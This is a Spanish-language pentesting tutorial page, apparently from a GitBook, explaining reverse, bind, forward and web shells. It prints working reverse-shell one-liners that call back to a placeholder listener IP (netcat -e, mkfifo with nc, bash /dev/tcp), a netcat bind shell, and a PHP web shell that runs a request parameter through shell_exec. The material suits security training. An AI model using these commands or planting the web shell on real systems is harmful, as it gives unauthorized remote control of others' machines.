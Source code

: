 ```yaml
---
description: Aquí veras los tipos de shells que existen
cover: >-
  https://images.unsplash.com/photo-1629654291663-b91ad427698f?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHw2fHx0ZXJtaW5hbCUyMGxpbnV4fGVufDB8fHx8MTY4OTM0ODQwM3ww&ixlib=rb-4.0.3&q=85
coverY: 73
---
```


# ↔️ Shells

Cuando comprometemos un software/servicio o nos aprovechamos de alguna falla o vulnerabilidad, nuestro siguiente objetivo es entrar en el sistema, y poder ejecutar comandos en el.

## Reverse Shell

Una Reverse Shell, es una shell que nos envía la maquina que queremos comprometer a nosotros. Esto de su lado se puede hacer de varias formas.&#x20;

(Ejemplo) Imagina que tienes un servicio HTTP/S corriendo en una maquina, y encuentras una vulnerabilidad que te permite ejecutar código, en este caso puedes enviarte una shell del lado de la maquina objetivo hacia tu equipo, y así poder entrar en el sistema.

Todo ello se hace mediante un puerto a elegir por el atacante. En los casos de Reverse Shell existen dos roles:

1. <mark style="color:yellow;">**Listener**</mark>: Este es el atacante, que esta escuchando en un puerto y una IP, esperando a que la maquina objetivo envíe la shell por ahí y así poder interceptarla y usarla
2. <mark style="color:yellow;">**Sender/Transmitter**</mark>: Esta es la maquina victima que hemos conseguido vulnerar, es la que enviará la shell por donde nosotros le indiquemos



{% tabs %}
{% tab title="Listener" %}
Este es un comando que usando **NetCat** nos sirve para todos los tipos de reverse shell

```sh
nc -nlvp PORT
```
{% endtab %}

{% tab title="Transmitter" %}
En este caso usamos la herramienta **NetCat** para enviar una "/bin/bash" a una IP (la del atacante/listener) y a un puerto seleccionado por el.

```sh
nc -e /bin/bash IP_Listener Puerto
```

{% hint style="warning" %}
Dependiendo de la versión de NetCat, puede que el parámetro `-e` no esté disponible, por lo que habrá que utilizar este comando:

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc Ip_Listener Puerto >/tmp/f
```
{% endhint %}

En este otro caso, este comando nos servirá para maquinas que no tengan NetCat instalado

```sh
bash -i >& /dev/tcp/IP_Listener/Puerto 0>&1
```
{% endtab %}
{% endtabs %}

<figure><img src="../.gitbook/assets/image (59).png" alt="" width="563"><figcaption><p>Ejemplo de Reverse Shell</p></figcaption></figure>

<details>

<summary>👈🏽 Estos son los parámetros que se utilizan con NetCat</summary>

Con respecto al comando `nc -nlvp PORT` nos referimos a los parámetros -n, -l, -v, -p:

1. `-n` : No aplicar resolución DNS
2. `-l` : Modo escucha
3. `-v` : Modo verbose
4. `-p` : Indicamos el puerto por el que nos ponemos en escucha

</details>

{% hint style="warning" %}
La herramienta NetCat, tiene diferentes variaciones como por ejemplo:&#x20;

* `nc`
* `ncat`
* `nc.traditional`
{% endhint %}

## Bind Shell

En este tipos de shell no es como en las [reverse shell](shells.md#reverse-shell) que nos enviamos una consola desde la victima, si no que como atacantes, **abrimos un puerto temporalmente en la maquina** objetivo en el que se ejecuta una shell, de manera que de nuestro lado, nos conectamos a la IP y Puerto en el que ejecuta la shell

{% tabs %}
{% tab title="Comando ejecutado en la maquina Atacante" %}
```sh
nc IP_Objetivo Puerto
```
{% endtab %}

{% tab title="Comando ejecutado en el Objetivo" %}
```sh
nc -nlvp Puerto  -e /bin/bash
```
{% endtab %}
{% endtabs %}

<figure><img src="../.gitbook/assets/image (55).png" alt="" width="514"><figcaption><p>Ejemplo Bind Shell</p></figcaption></figure>

{% hint style="info" %}
Existen herramientas que te proporcionan los comandos con los parámetros personalizados para ejecutarlos directamente:

1. [https://www.revshells.com/](https://www.revshells.com/) - Vía Web
2. [https://github.com/d4t4s3c/Shelly](https://github.com/d4t4s3c/Shelly) - Vía CLI
3. [https://github.com/totekuh/reverse-shell-generator](https://github.com/totekuh/reverse-shell-generator) - Vía CLI
4. [https://github.com/t0thkr1s/revshellgen](https://github.com/t0thkr1s/revshellgen) - Vía CLI
{% endhint %}

{% hint style="info" %}
Tienes disponible una **Cheat Sheet** aquí:

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
{% endhint %}

## Forward Shell

Las forward shells, son shells que son usadas cuando la maquina victima tiene reglas configuradas de manera que nos es imposible enviarnos una consola. En este caso, este tipo de shells, usan mkfifo, para poder usar una consola simulada. Esto se consigue ya que el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota

## Web Shell

A diferencia de las Reverse Shell, la web shell, nos permite ejecutar comandos directamente desde el archivo sin necesidad de entablarnos conexiones. Para ello subiremos un archivo PHP con este código:

```php
<?php
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Después, accedemos al recurso y escribimos el comando a modo de parametro:

```bash
http://dominio.com/uploads/webshell.pgp?cmd=whoami
```

En ese ejemplo, a través del parámetro "cmd" le pasamos el comando y la salida nos la mostrará por pantalla.

{% hint style="warning" %}
Si queremos ejecutar una reverse shell mediante una web shell es importante codificar el comando en URL-encode para que funcione

![](<../.gitbook/assets/image (15).png>)
{% endhint %}
